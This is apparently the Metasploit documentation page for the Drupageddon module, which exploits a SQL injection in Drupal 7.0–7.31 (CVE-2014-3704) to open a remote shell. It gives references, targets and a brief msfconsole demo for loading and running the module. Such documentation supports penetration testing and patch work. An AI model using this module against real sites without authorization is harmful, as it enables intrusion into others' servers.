 ## Drupal HTTP Parameter Key/Value SQL Injection

This module exploits the Drupal HTTP Parameter Key/Value SQL 
Injection (aka Drupageddon) in order to achieve a remote 
shell on the vulnerable instance. This module was tested 
against Drupal 7.0 and 7.31 (was fixed in 7.32).


## Module Name
exploit/multi/http/drupal_drupageddon

## Authors
* SektionEins
* Christian Mehlmauer
* Brandon Perry


## References
* http://cvedetails.com/cve/2014-3704/
* https://www.drupal.org/SA-CORE-2014-005
* http://www.sektioneins.de/en/advisories/advisory-012014-drupal-pre-auth-sql-injection-vulnerability.html



## Targets
* Drupal 7.0 - 7.31


## Platforms
* php

## Reliability
[Excellent](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use exploit/multi/http/drupal_drupageddon
msf exploit(drupal_drupageddon) > show targets
   ... a list of targets ...
msf exploit(drupal_drupageddon) > set TARGET <target-id>
msf exploit(drupal_drupageddon) > show options
   ... show and set options ...
msf exploit(drupal_drupageddon) > run
```
    
    